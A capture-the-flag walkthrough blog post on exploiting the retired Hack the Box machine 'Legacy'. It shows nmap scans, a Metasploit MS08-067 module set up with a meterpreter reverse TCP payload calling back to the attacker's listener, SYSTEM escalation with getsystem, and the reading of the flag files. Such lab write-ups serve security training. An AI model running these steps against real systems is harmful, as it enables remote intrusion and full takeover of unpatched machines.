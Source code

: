 ```yaml
---
title: Legacy, Hack the Box CTF Walkthrough
lead: Exploiting the MS08-067 Microsoft Server Service Relative Path Stack Corruption
tag: CTF
image: /assets/img/posts/2021-01-11-legacy-hack-the-box-walkthrough/legacy.png
layout: post
description: ""
date:   2021-01-10 20:01:21 -0400
last-updated: 2021-01-10 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.
card: card-2
---
```


Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.

## Getting Started   
The first thing i did was conduct a basic <kbd>nmap</kbd> scan to search for the top 200 open ports on the target.  

```bash
──(kali㉿kali)-[~/Documents/htb/legacy]
└─$ nmap --top-ports 200 -Pn 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 14:50 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).
Not shown: 197 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
                                                                                                                                                          
```  

The scan shows there are at least 2 open ports with services such as netbios and microsoft-ds running. Next, to get a better understanding of the services and version running, and to scan for basic vulnerabilities, I used the <kbd>nmapAutomator</kbd> script.  The below output only shows the most relevant information.  

```bash
---------------------Starting Nmap Vulns Scan---------------------
                                                                                                          
Running CVE scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds


Running Vuln scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.021s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.12 seconds
```  

The scan shows the target is likely vulnerable to CVE-2008-4250, a serious vulnerability also referred to by its [microsoft bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) identifier, Microsoft Windows Server 2000/2003 - Code Execution (MS08-067). There is a public exploit for this vulnerability on metasploit (exploit/windows/smb/ms08_067_netapi), so next i started up the <kbd>msfconsole</kbd> and configured the necessary options.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > 
```  

Executing the exploit started a reverse meterpreter session on the target. Using the <kbd>getsystem</kbd> meterpreter command, I upgraded my privilege to SYSTEM. At this point I can start looking for the user and root flags.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1028) at 2021-01-11 10:22:35 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```  

I used the <kbd>search</kbd> meterpreter command and found both flags. 

```bash
meterpreter > search -f *user.txt*
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644fmeterpreter > 
```  
```bash
meterpreter > search -f *root.txt*
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713meterpreter > 
```  
## Conclusion  
Overall this was an easy CTF machine that was vulnerable to a very popular windows exploit.  


